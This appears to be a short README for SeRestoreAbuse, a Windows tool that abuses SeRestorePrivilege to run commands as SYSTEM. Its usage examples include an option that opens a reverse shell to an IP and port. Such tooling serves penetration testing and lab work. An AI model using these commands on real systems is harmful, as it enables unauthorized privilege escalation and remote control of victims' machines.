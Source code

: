 # SeRestoreAbuse with Reverse shell

Executes a command as SYSTEM when SeRestorePrivilege is assigned. In case it's disabled, the program will enable it for you.

Usage: SeRestoreAbuse.exe "cmd /c ..."

```powershell
Usage:
  SeRestoreAbuse.exe <custom_payload>
  SeRestoreAbuse.exe -revshell <IP:PORT>

Examples:
  SeRestoreAbuse.exe "cmd /c whoami > C:\test.txt"
  SeRestoreAbuse.exe -revshell 192.168.1.10:4444
 ```

# Original Code
https://github.com/xct/SeRestoreAbuse
